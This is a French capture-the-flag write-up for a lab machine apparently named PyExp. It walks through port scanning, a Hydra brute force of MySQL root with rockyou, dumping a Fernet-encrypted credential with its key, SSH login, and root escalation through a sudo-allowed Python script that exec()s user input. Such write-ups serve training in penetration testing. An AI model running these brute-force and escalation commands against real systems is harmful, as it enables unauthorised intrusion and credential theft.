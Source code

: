 # PyExp

    sudo nmap -p- -sV 192.168.204.118
    sudo masscan -p1-65535,U:1-65535 --rate=1000 192.168.204.118 -e tun0
    sudo /home/timothe/.local/bin/autorecon 192.168.204.118
Scans classiques.

Il n'y a que les ports 3306 (MySQL) et 1337 (SSH) qui sont ouverts. Cela laisse très peu de possibilités. J'ai tenté les credentials par défaut pour MySQL sans succès, et j'ai ensuite lancé Hydra sur l'utilisateur par défaut :

    hydra  -vV  -f  -l root -P  ~/rockyou.txt 192.168.204.118 mysql
    
On obtient un mot de passe, il n'y a plus qu'à l'utiliser pour se connecter à la base de données et la fouiller : 

    mysql  -u root -h 192.168.204.118 -P 3306
    MariaDB [(none)]> SHOW DATABASES;
    MariaDB [(none)]> USE data;
    MariaDB [(none)]> SHOW TABLES;
    MariaDB [data]> SELECT * FROM fernet;

    +--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+  
    | cred | keyy |  
    +--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+  
    | gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys= | UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0= |  
    +--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+  
    1 row in set (0.051 sec)

Le nom de la table est très explicite, Fernet est un module Python de chiffrement et on peut facilement utiliser des sites comme https://asecuritysite.com/tokens/ferdecode pour le déchiffrer.

On essaye les credentials obtenus sur le SSH et cela fonctionne : 

    ssh  -l lucy 192.168.204.118 -p 1337
    cat local.txt

Élévation de privilèges : 

    sudo -l		
> (root) NOPASSWD: /usr/bin/python2 /opt/exp.py

    cat /opt/exp.py
    sudo python2 /opt/exp.py
> uinput = raw_input('how are you?')  
> exec(uinput)

Ce script ne filtre pas du tout les données entrées et exécutera n'importe quelle commande, c'est une injection de commande simplissime. J'ai opté pour la ligne que j'utilise habituellement pour fiabiliser les shells pourris : 
<br /> **"import pty ; pty.spawn('/bin/bash')"**

    ls /root
    cat /root/proof.txt
